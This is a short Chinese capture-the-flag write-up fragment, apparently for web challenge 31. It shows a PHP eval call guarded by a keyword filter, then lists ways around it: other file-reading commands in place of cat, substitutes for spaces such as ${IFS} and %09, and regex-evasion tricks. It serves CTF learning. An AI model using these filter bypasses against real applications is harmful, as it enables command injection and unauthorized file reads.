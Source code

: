 ## 31 过滤cat

```php
 if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
```

### cat被过滤,使用其他读取函数

```
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
pr:
php:
sh:
```

### 空格绕过

```
> < <> 重定向符
%09(需要php环境)
${IFS}
$IFS$9
{cat,flag.php} //用逗号实现了空格功能
%20
%09
%00-%ff
```

### 简单的绕过正则

```
''
\
*
变量拼接
```

## 32 过滤echo和括号
